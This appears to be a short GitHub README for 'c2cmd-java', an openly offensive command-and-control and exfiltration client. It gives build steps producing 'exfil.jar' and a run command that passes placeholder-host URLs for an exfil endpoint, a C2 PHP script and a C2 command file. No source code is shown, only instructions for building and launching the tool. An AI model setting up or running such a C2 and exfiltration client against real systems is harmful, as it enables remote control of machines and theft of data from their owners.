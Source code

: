 # c2cmd-java

```Your Urls have to be added to the Java source code.```

To create the jar and run within its own directory:

```
javac c2cmd.java
jar -cvmf exfil.mf exfil.jar *
```
To run it (with your url changes compiled above) 
```
java -jar exfil.jar
```
or run it like
```
java -jar exfil.jar https://SOMEHOST/exfil https://SHOMEHOST/exploit/c2/2c.php?get=1 https://SOMEHOST/exploit/c2/c2.txt 2
```
